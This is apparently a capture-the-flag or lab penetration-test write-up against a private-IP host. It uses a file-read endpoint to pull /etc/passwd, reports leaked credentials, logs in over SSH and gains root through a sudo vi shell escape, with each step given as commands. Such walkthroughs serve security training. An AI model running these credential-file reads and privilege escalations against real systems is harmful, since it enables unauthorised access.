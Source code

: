 ### Service Discovery on Port 23100

```bash
curl http://172.26.10.11:23100/
```

**Response:**
```
Access denied. Only the /fetch route with 'url' parameter is allowed. 
Example: /fetch?url=file:///, To Access Host files go with 'hostfs' path
```

### Password File Extraction

```bash
curl "http://172.26.10.11:23100/fetch?url=file:///hostfs/etc/passwd"
```

**Credentials Discovered:**
- Username: `app-admin`
- Password: `@dmin@123`


## Initial System Access

### SSH Authentication

```bash
ssh app-admin@172.26.10.11
```

Successfully authenticated using discovered credentials.

### Privilege Escalation via Sudo

**Sudo Privileges Check:**
```bash
sudo -l
# Output: (ALL) /usr/bin/vi
```

**Privilege Escalation:**
```bash
sudo /usr/bin/vi
:!/bin/bash
```

Successfully escalated to root privileges.



## Configuration File Analysis

### Dummy CSS File Discovery

From source code comment: `<!--<link rel="icon" type="image/text" href="./src/assets/dummy.css" /> -->`
